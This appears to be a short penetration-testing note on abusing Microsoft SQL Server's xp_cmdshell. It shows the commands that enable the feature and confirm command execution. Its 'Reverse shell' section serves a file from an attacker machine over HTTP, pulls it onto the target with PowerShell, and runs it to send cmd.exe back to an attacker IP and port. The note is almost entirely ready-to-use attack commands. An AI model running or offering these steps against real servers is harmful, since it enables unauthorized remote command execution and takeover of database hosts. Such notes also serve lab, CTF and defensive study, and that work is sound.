 ```yaml
---
id: xp_cmdshell
aliases: []
tags:
  - Networking/Services/SQL/xp_cdmshell
links: "[[SQL]]"
---
```


# xp_cmdshell

[xp_cdmshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17)
allows the execution of Windows command shell commands
directly from the SQL Server environment

<!-- Activation {{{-->
## Activation

**xp_cmdshell** is disabled by default

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

<!-- }}} -->

<!-- Usage {{{-->
## Usage

Check if xp_cmdshell is enabled

```sh
EXEC xp_cmdshell 'whoami';
```

<!-- }}} -->

<!-- Reverse shell {{{-->
## Reverse shell

Simple [Python HTTP server](https://docs.python.org/3/library/http.server.html)
to serve a file from the attacker machine

```sh
sudo python3 -m http.server 80
```

Acquire the file served by the attacker from the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; wget http:{ip_address}/{file_name} -outfile {file_name}"
```

Execute the acquired file on the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; .\{file_name} -e cmd.exe {attacker_ip} {attacker_port}"
```

<!-- }}} -->
